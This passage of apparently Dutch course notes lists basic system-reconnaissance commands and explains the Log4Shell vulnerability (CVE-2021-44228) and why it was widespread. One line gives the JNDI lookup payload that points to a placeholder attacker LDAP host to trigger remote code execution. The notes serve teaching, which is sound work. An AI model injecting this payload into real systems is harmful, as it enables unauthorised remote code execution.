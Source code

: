 ### Nuttige cmds
|Doel|Linux|Windows|
|:--|:--|:--|
|Name of current|userwhoami|whoami|
|OS|uname -a|ver|
|Network config|ifconfig|ipconfig /all|
|Network connections|netstat -an|netstat -an|
|Running processes|ps -ef|tasklist|

## 8.4. Log4Shell
- CVE-2021-44228 - bestond van 2013 tot 2021
- Zero-day vulnerability in Log4J Framework (popular Java logging framework)
- Vuln. involves arbitrary code execution

Probleem
- Vuln. neemt voordeel van Log4J's toestaan van requests voor arbitrary LDAP en JNDI servers
- Attacker kan arbitrary/remote Java code uitvoeren op server of andere pc
- Aangetaste bedrijven: AWS, Cloudflare, iCloud, Minecraft, ...

### Log4Shell attack
- Aanval mogelijk door processing van strings voor saving in een log file
- Kan makkelijk exploited worden
- Vb LDAP protocol gebruiken met expressie
  ```
  ${jndi: ldap://THEATTACKERSHOST:PORT}
  ```

### Why half of the internet was on fire
- Log4J framework is commonly used
- Attack is relatief makkelijk uit te voeren
- Gebruikmakend van rogue LDAP server: Remote Code Execution (RCE) is mogelijk

### Log4Shell exploit
<img src="afbeeldingen/H8_JNDI.png" width="400"/>